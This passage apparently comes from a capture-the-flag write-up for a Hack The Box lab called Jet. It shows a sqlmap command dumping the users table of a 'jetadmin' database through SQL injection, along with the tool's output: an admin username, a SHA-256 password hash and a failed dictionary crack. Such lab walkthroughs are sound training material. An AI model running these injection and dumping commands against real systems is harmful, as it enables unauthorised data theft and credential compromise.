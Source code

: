 ```sh
Database: jetadmin
[1 table]
+-------+
| users |
+-------+
```

Now let's dump the contents of the users table:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# sqlmap -r jet-login -D jetadmin -T users --dump
        ___
       __H__                                                                                                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.5.11#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                    
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                 
[*] starting @ 15:57:15 /2021-11-19/
[15:57:15] [INFO] parsing HTTP request from 'jet-login'
[15:57:15] [INFO] resuming back-end DBMS 'mysql' 
[15:57:15] [INFO] testing connection to the target URL
got a 302 redirect to 'http://www.securewebinc.jet:80/dirb_safe_dir_rf9EmcEIx/admin/login.php'. Do you want to follow? [Y/n] 
<SNIP>
[15:57:17] [INFO] fetching columns for table 'users' in database 'jetadmin'
[15:57:17] [INFO] retrieved: 'id'
[15:57:17] [INFO] retrieved: 'int(11)'
[15:57:17] [INFO] retrieved: 'username'
[15:57:17] [INFO] retrieved: 'varchar(50)'
[15:57:17] [INFO] retrieved: 'password'
[15:57:18] [INFO] retrieved: 'varchar(191)'
[15:57:18] [INFO] fetching entries for table 'users' in database 'jetadmin'
[15:57:18] [INFO] retrieved: '1'
[15:57:18] [INFO] retrieved: '97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084'
[15:57:18] [INFO] retrieved: 'admin'
[15:57:18] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[15:57:20] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[15:57:34] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[15:57:35] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[15:57:35] [INFO] starting 4 processes 
[15:57:46] [WARNING] no clear password(s) found                                                                                                                                                                                             
Database: jetadmin
```